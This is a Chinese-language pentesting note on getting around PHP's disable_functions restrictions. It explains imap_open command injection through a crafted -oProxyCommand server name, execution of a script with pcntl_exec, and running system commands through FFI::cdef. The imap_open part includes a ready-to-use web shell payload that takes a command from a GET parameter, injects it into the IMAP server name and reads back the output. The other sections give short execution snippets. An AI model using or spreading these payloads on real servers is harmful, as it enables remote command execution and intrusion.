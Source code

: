 

## imap_open

>PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。利用此漏洞的功能代码是Metasploit Framework的一部分。 

### 利用条件

存在ssh和rsh功能 且  enable_insecure_rsh = true

### 利用脚本(未测试)

```php
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5);
echo file_get_contents("/tmp/cmd_result");
```



## 利用pcntl插件绕过

```
pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));
```



## FFI

### 特性

FFI::load 无视 opeb_basedir 可以直接加载文件

FFI 相对于 php 更加底层，可以泄露内存

### 命令执行

```php
$ffi=FFI::cdef("int system(char *command);","libc.so.6");
$ffi->system("sleep 5");
```

### open_basedir，禁用FFI::cdef，目录无法写文件命令执行
